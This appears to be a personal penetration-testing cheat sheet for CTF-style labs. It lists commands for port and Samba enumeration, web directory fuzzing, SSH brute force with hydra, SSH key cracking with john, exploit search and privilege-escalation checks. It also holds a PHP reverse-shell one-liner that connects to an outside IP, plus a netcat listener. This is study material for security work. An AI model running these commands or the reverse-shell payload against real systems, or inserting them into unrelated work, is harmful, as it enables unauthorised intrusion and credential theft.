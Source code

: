 # Exploration

## Server

Scan for open ports  
`nmap -A 10.10.116.134`

## Samba

Get Information about samba  
`enum4linux -a 10.10.116.134`

Connect to anonymous samba share  
`smbclient //10.10.116.134/Anonymous`

## Webserver

Seclists: <https://github.com/danielmiessler/SecLists>

### Custom wordlists

[CeWL](https://tools.kali.org/password-attacks/cewl) is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a list of words which can then be used for password crackers such as John the Ripper.

### Directory scanning

`gobuster dir -u http://10.10.154.87:3333 -w /home/kali/Downloads/big.txt`

`wfuzz -c -z file,wordlist.txt -u http://10.10.218.20/api/site-log.php?date=FUZZ`

`wfuzz -c -z file,big.txt -d “username=FUZZ&password=FUZZ” -u http://shibes.xyz/api.php`

`wfuzz -c -z file,big.txt -u http://shibes.xyz/api.php?breed=FUZZ`

`./ffuf -u http://s3.bucket.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt`

`dirb http://10.10.144.50 big.txt`

# Brute Force

## SSH

SSH Brutefrce with hydra  
`hydra -t 4 -V -f -l jan -P /home/kali/Downloads/rockyou.txt 10.10.116.134 ssh`

Crack ssh key: Convert id_rsa for john and the crack it with wordlist  
`python3 /usr/share/john/ssh2john.py id_rsa > idcrack`  
`john --wordlist=rockyou.txt idcrack`

# Exploitation

## Search for exploits

Search in exploit db for wordpress  
`searchsploit wordpress`

## Reverse shell

### Reverse shells

[Netcat without e](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99)

`<?php $sock=fsockopen("10.9.231.55",4444);exec("/bin/sh -i <&3 >&3 2>&3"); ?>`

### Incoming reverse shell

`nc -nvlp <port>`

### Upgrading reverse shell

[Upgrading from netcat with magic](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

# Priviledge escalation

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) is a script that search for possible paths to escalate privileges on Linux/Unix* hosts

[LinEnum](https://github.com/rebootuser/LinEnum)

List sudo rights  
`sudo -l`

setuid-Bit
`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

# Post Exploitation

Bash History
~/bash_history ~/zsh_history

# Useful tools

Local webserver from current directory  
`python3 -m http.server 8080`

Pipe through grep and write resuls to file  
`cat <file> | grep -e "dir" > result.txt`  

View & edit Path variable  
<https://www.baeldung.com/linux/path-variable>  
`echo $PATH`  
`export PATH=/some/new/path:$PATH`  

[Cyberchef](https://gchq.github.io/CyberChef/) - Encoding, Cryto and other string operations

## Images

exiftool - show exifdata

Extract hidden data from images
`steghide extract -sf Image.jpg`

# Legende

_kursiv_
**fett**
~~durchgestrichen~~
`code`

---

Liste:

* Eintrag
* Noch einer

Liste:

1. asdf
2. asf

[Link](http://example.com)

> Quote
